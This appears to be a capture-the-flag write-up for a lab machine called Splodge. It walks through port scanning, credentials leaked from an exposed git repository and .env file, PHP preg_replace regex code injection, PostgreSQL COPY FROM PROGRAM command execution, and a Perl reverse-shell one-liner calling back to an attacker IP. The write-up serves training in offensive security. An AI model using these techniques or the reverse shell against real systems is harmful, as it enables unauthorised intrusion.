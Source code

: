 # Splodge

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.108
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:08 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
5432/tcp open  postgresql
8080/tcp open  http-proxy
```

Did a detailed scan for the web ports too:

```
$ sudo nmap -p 80,1337,8080 -sC -sV --min-rate 3000 192.168.157.108     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:09 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-git: 
|   192.168.157.108:80/.git/
|     Git repository found!
|     .gitignore matched patterns 'bug' 'key'
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: initial commit 
|_    Project type: node.js application (guessed from .gitignore)
|_http-title: 403 Forbidden
1337/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Commando
8080/tcp open  http    nginx 1.16.1
|_http-title: Splodge | Home
|_http-server-header: nginx/1.16.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit
```

There's a `.git` repository.

### Git Repo --> Creds

I downloaded the `.git` repository and looked through the logs with `git log -p -2`. However, it was way too long for me to analyse. Instead, I checked out the repository and checked for passwords:

```
$ grep -R password                                                 
database/migrations/2020_10_10_015036_create_settings_table.php:            $table->string('password');
database/seeds/DatabaseSeeder.php:            'password' => 'SplodgeSplodgeSplodge'
```

### Web Enum + Source Code --> RCE

Port 80 just showed us a 403 page, which was not helpful. Port 1337 did show some potential for RCE:

<figure><img src="../../../.gitbook/assets/image (2042).png" alt=""><figcaption></figcaption></figure>

However, I was unable to make anything happen. Port 8080 showed a blog page with an admin login:

<figure><img src="../../../.gitbook/assets/image (3407).png" alt=""><figcaption></figcaption></figure>

We can login to the admin panel using `admin:SplodgeSplodgeSplodge`:

<figure><img src="../../../.gitbook/assets/image (2708).png" alt=""><figcaption></figcaption></figure>

So now we know that the Git repository is for this application. This panel was rather interesting, because it has a 'Profanity Filter Regex' option, which I presume allows us to specify Regex strings within it.&#x20;

I was unable to find any source code for this Admin Panel specifically, but I can find some code to see what it does within `app/Http/Controllers`:

{% code title="PostController.php" %}
```php
public function comment(Request $request, Post $post)
    {
        error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED);
        $author = $request->input('commentAuthor');
        $message = $request->input('commentMessage');
        $settings = DB::table('settings')->first();
        $message = preg_replace($settings->filter, $settings->replacement, $message);
        DB::table('comments')->insert(['post_id' => $post->id, 'author' => $author, 'message' => $message]);
        $comments = DB::table('comments')->where('post_id', '=', $post->id)->get();
        return view('post', ['post' => $post, 'comments' => $comments]);
    }
```
{% endcode %}

It seems that there's a `preg_replace` function that replaces the regex matches with our replacement.&#x20;

Googling for PHP Regex exploits brings this up:

{% embed url="https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4" %}

From the article above, we can use regex of `/a/e` to inject PHP code. I tested this out:

<figure><img src="../../../.gitbook/assets/image (3430).png" alt=""><figcaption></figcaption></figure>

Afterwards, I sent one comment with the letter 'a' in it. When I did, I got a hit on my HTTP server:

<figure><img src="../../../.gitbook/assets/image (3400).png" alt=""><figcaption></figcaption></figure>

We now have RCE over the machine, and we can easily get a reverse shell on port 8080:

<figure><img src="../../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PostgresSQL Creds --> User Shell

We spawned in the `/usr/share/nginx/html` folder, which had a `.env` file:

```
bash-4.2$ ls -al
total 180
drwxr-xr-x. 12   501 games   4096 Oct 17  2020 .
drwxr-xr-x.  5 root  root      49 Oct 17  2020 ..
-rw-r--r--.  1   501 games    362 Oct 17  2020 .env
drwxr-xr-x.  8 root  root     166 Oct 17  2020 .git
-rw-r--r--.  1   501 games    111 Jul  4  2017 .gitattributes
-rw-r--r--.  1   501 games    146 Jul  4  2017 .gitignore
drwxr-xr-x.  7 root  root      98 Oct 17  2020 app
-rwxr-xr-x.  1 root  root    1646 Jul  4  2017 artisan
drwxr-xr-x.  3 root  root      54 Oct 17  2020 bootstrap
-rw-r--r--.  1 root  root    1300 Jul  4  2017 composer.json
-rw-r--r--.  1 root  root  144904 Oct 11  2020 composer.lock
drwxr-xr-x.  2 root  root     209 Oct 17  2020 config
drwxr-xr-x.  5 root  root      90 Oct 17  2020 database
-rw-r--r--.  1 root  root    1043 Jul  4  2017 phpunit.xml
drwxr-xr-x.  3 root  root      71 Oct 17  2020 public
drwxr-xr-x.  5 root  root      45 Oct 17  2020 resources
drwxr-xr-x.  2 root  root      75 Oct 17  2020 routes
-rw-r--r--.  1 root  root     563 Jul  4  2017 server.php
drwxr-xr-x.  5 nginx nginx     46 Oct 17  2020 storage
drwxr-xr-x. 32 root  root    4096 Oct 11  2020 vendor

bash-4.2$ cat .env
APP_NAME=Splodge
APP_ENV=local
APP_KEY=base64:F9jFCNy0vJ1GhEsbf+PjmTSSHk8u741C5XNTN1Rguow=
APP_DEBUG=false
APP_LOG_LEVEL=info
APP_URL=http://splodge.offsec

DB_CONNECTION=pgsql
DB_HOST=127.0.0.1
DB_PORT=5432
DB_DATABASE=splodge
DB_USERNAME=postgres
DB_PASSWORD=PolicyWielderCandle120

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
QUEUE_DRIVER=sync
```

There's a database password there. We can then login with `psql` after fixing the `PATH` variable of this shell:

{% code overflow="wrap" %}
```
bash-4.2$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH

bash-4.2$ psql -U postgres -d splodge -h localhost
Password for user postgres: 
psql (12.4)
Type "help" for help.

splodge=# 
```
{% endcode %}

There's a feature within PostgreSQL that allows us to execute commands:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

<figure><img src="../../../.gitbook/assets/image (1859).png" alt=""><figcaption></figcaption></figure>

We can just get another reverse shell using this:

{% code overflow="wrap" %}
```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.196:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2400).png" alt=""><figcaption></figcaption></figure>

The payload is taken from Hacktricks.

### Root

User can run `bash` as `root`:

<figure><img src="../../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>
